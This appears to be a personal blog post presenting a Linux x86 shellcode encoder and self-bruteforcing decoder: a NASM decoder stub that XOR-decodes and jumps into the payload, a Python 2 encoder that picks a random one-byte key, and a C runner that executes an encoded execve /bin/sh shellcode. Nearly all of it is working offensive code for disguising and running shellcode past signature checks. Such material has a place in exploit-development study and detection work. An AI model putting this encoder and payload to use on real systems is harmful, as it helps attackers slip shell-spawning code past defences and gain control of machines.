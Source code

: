 ```yaml
---
title:  "Linux x86 one byte self bruteforcing shellcoder encoder/decoder"
---
```


I was looking  my old code and I found a shellcode encoder experiment I did some years ago. 


Basically, the encoder takes as input a shellcode, add a NOP opcode (0x90) in front of it, parses it's bytes and generate a set of bytes not used by the shellcode, then it picks one at random. Every shellcode's bytes is the xorred with this key.


The decoder perform a sort of self-bruteforcing: it loops every possible byte and try to XOR it against the first shellcode byte, if the opcode it's == 0x90, the decoder found the key and can start decoding it.


## decoder
```nasm
global _start

section .text
_start:
    jmp short shelly ; JMP CALL POP trick

stub:
    pop esi; address of shellcode in memory 
    xor ecx, ecx ; bytes counter 
    xor eax, eax ; eax = 0

findkey:
    inc ecx     ; ecx loops every possible byte. 
    push ecx    ; save ecx so it can be restored later
    xor cl, byte [esi] ; xor cl with the byte pointed by esi, in other words, with the shellcode byte
    cmp cl, 0x90 ; if cl != 0x90 
    pop ecx      ; restore ecx 
    jne findkey  ; try next byte
    
    ;ELSE key found
    
    mov al, cl ; al stores the correct key     
    mov al, cl 
    mov ah, cl 
    mov bx, ax 
    rol eax, 0x10 
    mov ax, bx  ; each byte of EAX is a the byte-key

    mov cl, len ; cl keeps the length of the shellcode and acts as LOOP decreasing counter 
    

    add esi, ecx ; esi stores the shellcode length 
    dec ecx      ; needed for handling the loop below 
decode:
    dec esi      
    dec esi 
    dec esi
    dec esi      ; in this way ESI points to the correct 4-bytes to decode

    dec ecx      
    dec ecx
    dec ecx      ; needed for handling the loop 

    mov ebx, eax        ; save the key  
    xor eax, [esi]      ; decrypt 4 bytes and save it in EAX
    push eax            ; save decrypted bye
    mov eax, ebx        ; restore the key 
    loop decode         ; decrypt until ECX = 0  
    call esp  ; execute the decrypted shellcode! 

shelly:
    call stub
   ; pase below the encoded bytes with encoder.py 0x28
   shellcode: db 0xb9,0x18,0xe9,0x79,0x41,0x06,0x06,0x5a,0x41,0x41,0x06,0x4b,0x40,0x47,0xa0,0xca,0x79,0xa0,0xcb,0x7a,0xa0,0xc8,0x99,0x22,0xe4,0xa9,0xb9,0xb9,0x29
    len equ $-shellcode 

```

## encoder
```python
#!/usr/bin/python2
import random 
import sys





shellcode =  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"

shellcode = '\x90' + shellcode


#generate a list of all possible bytes 

bytez = bytearray.fromhex(''.join(['%02x' % i for i in range(1,256)]))

#get a list of bytes used by the shellcode 
shellarray = bytearray(shellcode)

padding = (len(shellarray) % 4)
shellcode += '\x90' * padding  
keys =  set(bytez) - set(shellarray)
keys = bytearray(keys)
#select a random key 
key = random.choice(keys)
print("=" *10)
print "decryption key: " ,  hex(key)

print("=" *10)

encoded = ""
encoded2 = ""

#encrypt the shellcode with the random byte-key

for x in bytearray(shellcode) :
    y = x ^ key
    encoded += '\\x'
    encoded += '%02x' % y
    encoded2 += '0x%02x,' %y

#print to screen the encoded shellcode in two formats 
print("=" *10)
print("C version:\n\n ")
print '"' + encoded + '"' + "\n"
print("=" *10)
print("NASM version\n\n")
print encoded2 + '0x%02x' % key + "\n"
print("=" *10)
print 'Len: %d' % len(bytearray(shellcode))
```



## shellcode runner

```c
#include <stdio.h>
#include <string.h>
 
char *shellcode = "\xeb\x35\x5e\x31\xc9\x31\xc0\x41\x51\x32\x0e\x80\xf9\x90\x59\x75\xf6\x88\xc8\x88\xc8\x88\xcc\x66\x89\xc3\xc1\xc0\x10\x66\x89\xd8\xb1\x1d\x01\xce\x49\x4e\x4e\x4e\x4e\x49\x49\x49\x89\xc3\x33\x06\x50\x89\xd8\xe2\xf0\xff\xd4\xe8\xc6\xff\xff\xff\xb9\x18\xe9\x79\x41\x06\x06\x5a\x41\x41\x06\x4b\x40\x47\xa0\xca\x79\xa0\xcb\x7a\xa0\xc8\x99\x22\xe4\xa9\xb9\xb9\x29";

                   
                  int main(void)
{
    fprintf(stdout,"Length: %d\n",strlen(shellcode));
    (*(void(*)()) shellcode)();
    return 0;
}

```
